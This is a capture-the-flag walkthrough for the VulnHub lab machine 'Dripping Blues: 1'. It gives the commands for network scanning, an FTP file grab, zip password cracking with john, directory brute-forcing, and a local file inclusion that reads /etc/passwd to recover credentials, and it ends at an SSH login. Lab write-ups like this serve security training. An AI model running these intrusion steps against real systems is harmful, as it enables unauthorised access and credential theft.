










# Dripping Blues: 1

\

## 

## Dripping Blues: 1

- **Dripping Blues: 1** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/dripping-blues-1,744/>

- Open ova file .
- Then click finish .
- Start the machine .

1.  Network Scanning :

- Find the machine IP :

    nmap -sn 192.168.2.0/24

- Run nmap master command :

    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.123

- Find available port in the machine ( Optional ) :

    nmap -v -p- 192.168.2.123

- 

    nmap -sC -sV -A 192.168.2.123

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.123

1.  FTP Enumeration :

- FTP login :

    ftp 192.168.2.123

- Check the file list :

    ls

- Download the file :

    get respectmydrip.zip

- Unzip the file :

     unzip respectmydrip.zip

 Password required .

- Crack the zip file password :

    zip2john respectmydrip.zip > hash.txt

- Crack with john :

    john hash.txt --wordlist=/opt/rockyou.txt

- Unzip the file :

    unzip respectmydrip.zip

- Read the txt file :

    cat respectmydrip.txt

1.  Web Enumeration :

- IP visit in browser : <http://192.168.2.123/>
  <http://192.168.2.123/robots.txt>
  <http://192.168.2.123/dripisreal.txt>

- Run the gobuster for find the directory :

    gobuster dir -u http://192.168.2.123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 50

- Visit the index.php directory : <http://192.168.2.123/index.php>

<!-- -->

- This is LFI based now find the parameter :

    wfuzz -u 'http://192.168.2.123/index.php?FUZZ=/etc/passwd' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 21

- Visit the parameter and call the file :
  <http://192.168.2.123/index.php?drip=/etc/passwd>

- Now call the file from the robots.txt endpoints :
  <http://192.168.2.123/index.php?drip=/etc/dripispowerful.html>

- View the source code :

    view-source:http://192.168.2.123/index.php?drip=/etc/dripispowerful.html

- Password Found :

    imdrippinbiatch

- Username is given through the hint :

    travisscott 
    thugger

1.  SSH Access :

- Try to login ssh :

    ssh thugger@192.168.2.123

